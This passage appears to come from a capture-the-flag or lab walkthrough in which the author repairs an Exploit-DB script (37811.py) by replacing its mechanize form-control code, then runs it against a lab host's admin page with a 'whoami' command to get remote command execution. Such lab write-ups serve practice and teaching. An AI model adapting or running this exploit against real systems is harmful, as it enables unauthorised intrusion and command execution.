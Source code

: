 We get a “mechanize.\_form\_controls.ControlNotFoundError”.

![](<../../../.gitbook/assets/image (5).png>)

After searchiing google I found this on stackoverflow: [https://stackoverflow.com/questions/35226169/clientform-ambiguityerror-more-than-one-control-matching-name](https://stackoverflow.com/questions/35226169/clientform-ambiguityerror-more-than-one-control-matching-name)

We need to make a slight code change

```python
## Comment out this code found in the script

#br.form.new_control('text', 'login[username]', {'value': username})  
#br.form.fixup()
#br['login[username]'] = username
#br['login[password]'] = password

## Add this code in place of what is above

userone = br.find_control(name="login[username]", nr=0)
userone.value = username
pwone = br.find_control(name="login[password]", nr=0)
pwone.value = password
```

Running `python2 37811.py http://10.129.204.24/index.php/admin/ "whoami"` we get another issue

![](<../../../.gitbook/assets/image (13).png>)

We also need to follow redirects it looks like

![](<../../../.gitbook/assets/image (31).png>)
